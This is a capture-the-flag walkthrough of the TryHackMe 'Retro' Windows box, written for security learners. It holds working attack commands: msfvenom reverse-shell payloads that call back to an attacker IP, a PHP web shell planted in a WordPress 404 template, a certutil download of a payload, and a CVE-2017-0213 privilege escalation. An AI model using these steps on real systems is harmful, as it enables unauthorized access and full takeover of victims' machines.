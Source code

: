 ```yaml
---
title: "Drive Off into the Sunset After You Exploit this CVE-2017-0213 Vulnerable Box in Retro CTF"
datePublished: Mon Aug 07 2023 09:07:23 GMT+0000 (Coordinated Universal Time)
cuid: cll0nft0w000g09miedbsablx
slug: retro-ctf
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691628975541/bb69cecb-3aa6-42f7-91c9-cd1a3c23b6e5.png
tags: ctf, penetration-testing, 2articles1week, tryhackme, ctf-writeup

---
```


This walkthrough will go over the [**Retro**](https://tryhackme.com/room/retro) room found on [**TryHackMe**](https://tryhackme.com/). The objective behind this room is to use a bit of passive recon to find a set of credentials in order to RDP into the box, identify a vulnerability in the `Windows COM` `(CVE-2017-0213)`, and privesc to `NT AUTHORITY\SYSTEM`.

### Step 1: What's Out There?

```bash
nmap -sC -sV -p- -Pn retro.thm --min-rate=1000
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398315139/3276f81f-931e-46fc-a431-507ba270bf34.png align="center")

Looks like we have a webserver and an RDP session open. Let's check out what the web server can offer us.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398334110/a54a66b3-878f-4450-be00-382875ec42e0.png align="center")

A default `Microsoft IIS` page. We'll use `ffuf` to enumerate for directories.

### Step 2: FFUF

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://retro.thm/FUZZ -fs 703
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398377905/5a5ad8d7-dd64-4f55-b315-8a631ebb9c81.png align="center")

Nice, we discovered a directory called `/retro`. Let's go to it.

### Step 3: Finding Credentials

We discovered a blog that seems to be run by a username `Wade`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398407110/e8fa1ff2-f791-4a96-a2d9-c9f1ba46c782.png align="center")

After downloading and viewing the `Comments RSS` data, we discovered text that might be a potential password.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691399159508/449ee0ca-cad1-4dcb-a2a0-b59ba4aa2af5.png align="center")

Taking this information and plugging it into the `Site Admin` link allows us to log in to the WordPress admin panel.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398430562/494d3ee4-899a-4795-adf3-b97906094b02.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398433597/744cfd33-ecb7-423b-b836-30bed77627d1.png align="center")

### Step 4: Initial Foothold

Based on my experience with getting a reverse shell with WordPress, we would need to modify the `404.php` file and inject our generated shell code. We can do this with `msfvenom`.

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f raw -o retro_shell.php
```

Now let's start initializing our handler so we can catch the shell once it executes.

1. `msfconsole`
    
2. `use exploit/multi/handler`
    
3. `set payload php/meterpreter/reverse_tcp`
    
4. `set LHOST <ATTACKER_IP>`
    
5. `set LHOST 1337`
    
6. `exploit`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398464051/5c95ac08-7e7c-49a3-9514-c4a3d63bc638.png align="center")

From here we want to copy our retro\_shell.php code and paste it into `404.php`.We can do this by navigating to Appearance &gt; Theme Editor &gt; 404 Template. Delete the content of the `404.php` file and paste it into your shell. Should look like this.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398480745/2db8d5ef-e503-4dc9-9f49-8772d9867edc.png align="center")

Now navigate to the file in your browser ([http://retro.thm/retro/wp-content/themes/90s-retro/404.php](http://retro.thm/retro/wp-content/themes/90s-retro/404.php)) and it will drop you into a meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398490021/d1f3fe9d-5e5e-439d-9033-b0611dee0c68.png align="center")

### Step 5: Detour

Okay, so for some reason I could not get the meterpreter shell to stabilize with the 404.php route. But, that's alright. Sometimes we have to get creative and approach a problem from a different angle... in the end, we still get the same outcome. Root.

So what I decided to do is RDP into the box with our same credentials and upload a payload, set my handler, and catch it with a stable meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398523489/9c78942b-a252-4569-8b2b-238ee9494308.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398526561/f18a5b32-ae22-4469-b5c9-49e5096bf9e5.png align="center")

Generate a payload using `msfvenom`.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398540276/0f5e97a2-b254-4ccd-b7cb-d58b87a1bd9b.png align="center")

Start an HTTP Server and transfer it over using `certutil`.

```bash
certutil -urlcache -f http://10.13.28.215:8000/payload.exe payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398553018/d660007e-e76a-4ec6-ac77-c2bc1f327f0d.png align="center")

Now we want to set up our listener and catch the shell. Same as before with a slight modification.

1. `msfconsole`
    
2. `use exploit/multi/handler`
    
3. `set payload windows/x64/meterpreter/reverse_tcp`
    
4. `set LHOST <ATTACKER_IP>`
    
5. `set LPORT 1337`
    
6. `exploit`
    

Run the payload from the victim box and drop it into a meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398569944/b784bfca-e595-4ef2-83ed-4120ec8541dc.png align="center")

### Step 6: Privesc

We're going to use the `Windows Exploit Suggester (WES)` to find a way to elevate our privileges. First, we need to pull the system's information in order to pull this off.

> `systeminfo > sysinfo.txt`

Now we can pull it down to our attack box.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398607012/92071128-8d78-40c2-9043-f7c95ff08f5e.png align="center")

From here we can use `WES` to find a privesc vector (update database before running:

```bash
./windows-exploit-suggester.py --update
```

```bash
./windows-exploit-suggester.py --database 2023-08-07-mssb.xls --sysinfo ~/sysinfo.txt --ostext 'windows 10 64-bit' -l
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398680395/042c573a-f970-4fba-b5e9-26512fb32738.png align="center")

This build of Windows 10 is vulnerable to a `Windows COM` privesc, `CVE-2017-0213`. There's a binary that we can use to automate this exploit for us. Let's download it to our attack box and upload it to our victim. Link to binary here: [https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213)

Once we get it on our victim box we can run it and then move over to our RDP session and find a new CMD shell spawned with `NT AUTHORITY\SYSTEM` rights.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691399172768/3d8491c3-f96f-4d6b-912d-db3096f8356b.png align="center")

Finally...this one was very difficult and time-consuming. I ended up going down multiple rabbit holes and failing at stabilizing shells more times than I'd like to admit. But all-in-all, I can say this box was rewarding and has taught me a lot about Windows privesc. I hope you enjoyed this walkthrough, and as always, Happy Hacking.